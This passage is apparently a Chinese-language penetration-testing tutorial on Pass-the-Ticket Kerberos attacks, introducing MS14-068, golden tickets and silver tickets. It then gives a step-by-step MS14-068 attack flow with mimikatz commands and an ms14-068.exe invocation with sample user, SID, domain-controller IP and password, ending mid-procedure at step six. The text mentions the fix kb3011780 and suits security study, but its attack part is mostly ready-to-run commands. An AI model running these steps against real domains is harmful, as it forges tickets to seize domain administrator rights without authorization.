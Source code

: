 `PTT`攻击的部分就不是简单的 `NTLM` 认证了，它是利用 Kerberos协议进行攻击的。

攻击者从一台计算机上窃取 `Kerberos` 票证，并重新使用它来访问受感染环境中的另一台计算机。

`PTT` 传递不需本地管理员权限，连接时主机名连接，基于漏洞、工具、本地票据 。

有3种常见方法：`MS14-068`、Golden ticket，`SILVER ticket`

`MS14-068` 基于漏洞，`Golden ticket`(黄金票据)，`SILVER ticket`(白银票据)，其中 `Golden ticket`(黄金票据)，SILVER ticket(白银票据)属于权限维持技术。

下面分别介绍

##### MS14-068

- `MS14-068` 是密钥分发中心`KDC`服务中的Windows漏洞。
- 它允许经过身份验证的用户在其 `Kerberos` 票证`TGT`中插入任意的 `PAC`（表示所有用户权限的结构）。
- 该漏洞位于 `kdcsvc.dll` 域控制器的密钥分发中心`KDC`中。
- 普通用户可以通过呈现具有改变了 `PAC` 的 `Kerberos` `TGT` 来获得票证，进而伪造票据获得管理员权限。

[MS14-068](https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068)造成的危害是允许域内任何一个普通用户，将自己提升至域管权限。微软给出的补丁`kb3011780`

**攻击流程（用户属于域用户组）：**

1. 查看当前用户的`sid`

   ```
   whoami/user
   ```

2. 启用`mimikatz`，查看当前机器凭证

   ```
   kerberos::list
   ```

3. 清空当前机器所有凭证（如果有域成员凭证会影响凭证伪造）

   ```
   kerberos::purge
   
   powershell的klist也可以查看票据（powershell直接输入klist）
   ```

4. 利用 `ms14-068` 生成 TGT 票据，票据为`TGT_mary@god.org.ccache`文件

   ```
   ms14-068.exe -u 域成员名@域名 -s 当前域用户的sid -d 域控制器地址 -p 域成员密码
   
   .\MS14-068.exe -u mary@god.org -s S-1-5-21-1218902331-2157346161-1782232778-1124 -d 192.168.3.21 -p admin!@#45（注意前面要加.\）
   ```

5. 用`mimikatz`将票据注入内存

   ```
   mimikatz.exe "kerberos::ptc TGT_mary@god.org.ccache" exit
   ```

6. 查看凭证列表中票据是否注入成功
